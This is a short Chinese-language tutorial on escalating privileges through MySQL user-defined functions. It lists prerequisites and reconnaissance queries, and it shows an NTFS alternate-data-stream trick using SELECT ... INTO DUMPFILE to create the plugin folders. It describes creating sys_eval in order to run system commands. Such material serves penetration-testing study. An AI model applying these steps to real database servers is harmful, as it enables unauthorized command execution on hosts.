

## 1、 简介

在mysql可以使用自定义函数提权，udf = user defined funtion 用户自定义函数，对于自定义函数目录lib/plugin,文件为后缀名.dll，c语言编写

- 必须是root权限（主要是得创建和抛弃自定义函数）

- secure_file_priv=(未写路径)

- 将udf.dll文件上传到MySQL的plugin目录下（这里以MySQL>=5.1为例）

## 2、 提权中用到的查询语句

```bash
SELECT version(); #查询数据库版本
SELECT @@basedir; #查询MySQL的安装目录
SELECT user();  #查询当前用户
SHOW VARIABLES LIKE '%plugins%';  #查找是否有plugins目录
show variables like '%compile%'; #查看数据库位数
```

## 3、使用udf提权


导出udf，创建sys_eval，接下来直接执行命令即可


##  4、导出udf报错解决



**需要msyql配置中开启secure_file_priv=**


**需要创建lib/plugin文件夹**

ps: 
一般没有Lib、Plugin文件夹

- 手工建立

- 突破限制创建文件夹（可用NTFS ADS流模式突破进而创建文件夹）

查找到mysql的目录

```mysql
select @@basedir; 
```

利用NTFS ADS创建lib目录

```mysql
select 'It is dll' into dumpfile 'D:\\phpStudy\\MySQL\\lib::$INDEX_ALLOCATION'; 
```

利用NTFS ADS创建plugin目录

```bash
select 'It is dll' into dumpfile 'D:\\phpStudy\\MySQL\\plugin::$INDEX_ALLOCATION';
```

